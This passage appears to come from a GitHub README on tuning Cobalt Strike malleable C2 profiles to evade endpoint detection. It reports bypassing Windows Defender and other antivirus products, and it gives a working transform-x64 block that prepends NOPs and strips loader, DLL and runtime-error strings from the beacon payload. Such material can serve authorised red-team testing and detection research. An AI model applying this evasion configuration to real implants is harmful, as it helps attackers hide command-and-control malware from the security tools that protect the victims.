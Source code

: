 The string msvcrt.dll is not shown anymore, resulting in Windows Defender being bypassed:

<h2 align="center"></h2>
<img src="https://github.com/chipmanfu/Cobalt-Strike-Profiles-for-EDR-Evasion/blob/main/3img/11.png" 
<p align="center">

Testing it against various Antivirus products leads to some promising results (bear in mind that an unencrypted shellcode was used):

<h2 align="center"></h2>
<img src="https://github.com/chipmanfu/Cobalt-Strike-Profiles-for-EDR-Evasion/blob/main/3img/12.png" 
<p align="center">

## Removing strings is never enough

Although having obfuscate enabled in our profile, we were still able to detect lots of strings inside the beacon’s stack:

<h2 align="center"></h2>
<img src="https://github.com/chipmanfu/Cobalt-Strike-Profiles-for-EDR-Evasion/blob/main/3img/13.png" 
<p align="center">

We modified the profile a little by adding the following options to remove all the mentioned strings:

```
transform-x64 {
    prepend "\x90\x90\x90\x90\x90\x90\x90\x90\x90"; # prepend nops
    strrep "This program cannot be run in DOS mode" ""; # Remove this text
    strrep "ReflectiveLoader" "";
    strrep "beacon.x64.dll" "";
    strrep "beacon.dll" ""; # Remove this text
    strrep "msvcrt.dll" "";
    strrep "C:\\Windows\\System32\\msvcrt.dll" "";
    strrep "Stack around the variable" "";
    strrep "was corrupted." "";
    strrep "The variable" "";
    strrep "is being used without being initialized." "";
    strrep "The value of ESP was not properly saved across a function call.  This is usually a result of calling a function declared with one calling convention with a function pointer declared" "";
    strrep "A cast to a smaller data type has caused a loss of data.  If this was intentional, you should mask the source of the cast with the appropriate bitmask.  For example:" "";
    strrep "Changing the code in this way will not affect the quality of the resulting optimized code." "";
    strrep "Stack memory was corrupted" "";
    strrep "A local variable was used before it was initialized" "";
    strrep "Stack memory around _alloca was corrupted" "";
    strrep "Unknown Runtime Check Error" "";
    strrep "Unknown Filename" "";
    strrep "Unknown Module Name" "";
    strrep "Run-Time Check Failure" "";
    strrep "Stack corrupted near unknown variable" "";
    strrep "Stack pointer corruption" "";
    strrep "Cast to smaller type causing loss of data" "";
    strrep "Stack memory corruption" "";
    strrep "Local variable used before initialization" "";
    strrep "Stack around" "corrupted";
    strrep "operator" "";
    strrep "operator co_await" "";
    strrep "operator<=>" "";

    }
```
